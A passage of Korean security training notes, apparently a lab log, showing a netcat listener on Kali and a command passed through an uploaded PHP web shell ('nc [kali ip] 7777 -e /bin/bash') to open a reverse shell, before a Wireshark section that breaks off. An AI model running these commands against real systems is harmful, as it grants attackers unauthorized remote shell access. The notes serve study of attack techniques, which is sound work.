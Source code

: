 공격자(kali linux) 포트는 리스닝 7777 <-- PC의 권한, 사용자의 권한

<br/>

kali linux에서 7777포트로 리스닝하자.

```sh
$ nc -lvc 7777
```

그리고 웹cmd에 아래와 같이 입력하자.

```
만든.php?cmd=nc [kali ip] 7777 -e /bin/bash
```

![image-20200901170248293](secure_day2.assets/image-20200901170248293.png)

입력하면 kali linux에서 리버스쉘 접속이 가능해진다(피공격자 리눅스에 접속).

![image-20200901170353798](secure_day2.assets/image-20200901170353798.png)

<br/>

### Wireshark

패킷 분석 프로그램으로 어떤 공격인지 확인이 필요할 때 사용함. 버프스윗 안쓰고 파일 올리기 가능. 스타트 캡처링 패킷을 눌러서 시작한 후,
